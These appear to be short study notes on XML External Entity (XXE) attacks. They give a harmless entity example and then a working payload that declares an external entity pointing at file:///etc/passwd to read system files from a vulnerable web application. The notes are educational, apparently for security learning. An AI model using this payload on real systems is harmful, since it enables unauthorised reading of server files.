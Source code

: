 - XML External Entity attacks typically happen when we send in a payload of just simple XML such as
	- `<!DOCTYPE replace [<!ENTITY name "feast"> ]>  
	  <userInfo>  
	  <firstName>falcon</firstName>  
	  <lastName>&name;</lastName>  
	 </userInfo>`
- That payload defines an entity called name and assigns it a value of feast.
- You can also use XXE to read a file from the system using a payload such as
	- `<?xml version="1.0"?>  
		<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
		<root>&read;</root>`
- That payload defines an entity called read but then sets it to the value of SYSTEM and the path of the file you want to read. If the web app is vulnerable it should display the contents of /etc/passwd
- Remember that you won't be able to ls so you are only going to be able to read actual files
